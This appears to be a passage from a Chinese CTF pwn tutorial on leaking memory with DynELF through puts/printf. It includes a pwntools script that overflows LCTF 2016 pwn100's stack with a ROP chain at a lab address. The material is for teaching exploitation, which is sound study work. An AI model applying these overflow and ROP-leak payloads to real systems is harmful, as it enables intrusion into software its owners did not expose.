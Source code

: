 

## 0x02 DynELF的使用——其他输出函数



除了“好说话”的write函数之外，一些专门由于处理字符串输出的函数也经常出现在各类CTF pwn题目中，比如printf, puts等。这类函数的特点是会被特殊字符影响，因此存在输出长度不固定的问题。针对这种函数，我们可以参考这篇博文：<https://www.anquanke.com/post/id/85129> 对leak函数的接收输出部分进行调整。我们看一下例子~/LCTF 2016-pwn100/pwn100，其漏洞出现在sub_40068E()中。



![](pic6.png)

![](pic7.png)



很明显的栈溢出漏洞。

这个程序比较麻烦的一点在于它是个64位程序，且找不到可以修改rdx的gadget，因此在这里我们就可以用到之前的文章中提到的万能gadgets进行函数调用。

首先我们来构造一个leak函数。通过对代码的分析我们发现程序中可以用来泄露信息的函数只有一个puts，已知栈溢出到rip需要72个字节，我们很快就可以写出一个尝试泄露的脚本：



```python
from pwn import *
 
io = remote("172.17.0.3", 10001)
elf = ELF("./pwn100")
 
puts_addr = elf.plt['puts']
pop_rdi = 0x400763
 
payload = "A" *72
payload += p64(pop_rdi)
payload += p64(0x400000)
payload += p64(puts_addr)
payload = payload.ljust(200, "B")
io.send(payload)
print io.recv()
```
